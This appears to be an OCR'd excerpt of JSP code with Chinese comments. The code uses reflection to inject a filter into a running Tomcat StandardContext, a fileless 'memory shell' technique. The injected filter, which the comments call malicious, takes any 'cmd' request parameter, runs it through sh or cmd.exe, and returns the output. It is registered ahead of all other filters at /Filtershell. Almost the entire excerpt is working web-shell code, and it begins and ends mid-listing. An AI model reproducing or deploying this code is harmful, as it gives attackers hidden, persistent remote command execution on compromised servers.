 ```jsp
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    //获取上下文中 filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
    //创建恶意filter
    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null) {
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner( in ).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);
                    servletResponse.getWriter().flush();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }

        };
        //创建对应的FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);
        //创建对应的FilterMap，并将其放在最前
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/Filtershell");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);
        //调用反射方法，去创建filterConfig实例
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
```